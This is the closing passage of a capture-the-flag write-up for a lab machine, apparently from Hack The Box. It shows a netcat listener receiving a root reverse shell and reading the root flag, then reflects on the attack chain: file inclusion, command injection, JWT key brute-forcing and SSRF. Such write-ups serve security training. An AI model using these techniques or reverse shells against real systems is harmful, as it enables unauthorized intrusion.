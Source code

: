 Looking back at the netcat listener on my own machine, the second one worked:

```bash
$nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.185] 33704
bash: cannot set terminal process group (874): Inappropriate ioctl for device
bash: no job control in this shell
root@awkward:~/scripts# ls -la
total 24
drwxr-xr-x 2 root root 4096 Oct  6 01:35 .
drwx------ 9 root root 4096 Oct 20 23:02 ..
-rwxr-xr-x 1 root root  145 Oct  5 22:02 express.sh
-rwxr-xr-x 1 root root  318 Sep 15 21:49 notify.sh
-rwxr-xr-x 1 root root  414 Oct  3 21:19 restore.sh
-rwxr-xr-x 1 root root   82 Oct  5 22:45 vue.sh
root@awkward:~/scripts# 
root@awkward:~/scripts# cd /root
cd /root
root@awkward:~# ls     	
ls
backup
root.txt
scripts
snap
root@awkward:~# cat root.txt
cat root.txt
b56c5ced67d9d8941f016654a3e27364

```

And we have the root flag finally!

## Conclusion

This one was quite time consuming and frustrating.  I stumbled on the `awk` LFI and `sed` command injection.  I have to remind myself when doing any kind of injection to always be mindful of the string I'm passing, and if possible, aim for it to be syntactically valid once injected -- otherwise the shelled out command may fail and we miss out on LFI or command injection.

It's easy to see something, get caught up in the excitement of it all and throw variations at it without carefully crafting a payload and considering whether or not commands are likely to error before we get what we need.

Brute forcing a weak JWT signing key was new to me, and the SSRF for the url param initially seemed obvious, but I was blocked for a little while before deciding to try fuzzing ports.   Once again, I needed to remind myself to not just blindly enumerate and fuzz, but look at the broader context and story -- which in this case, involved reminding myself that this was a development server running webpack dev server, and likely not deployed on production-like ports (80, 8080, etc).

I also spent way too much time trying to decompile the webpack bundle VueJS site (not shown in my notes above), hoping to get cleaner JavaScript for the purposes of finding available routes.  After trying a few tools unsuccessfully, in the end I just parsed the file manually (not fun).

Overall a fun machine though, even if it involved a couple of days on and off with regular breaks to step away from the frustration of hitting a brick wall multiple times.

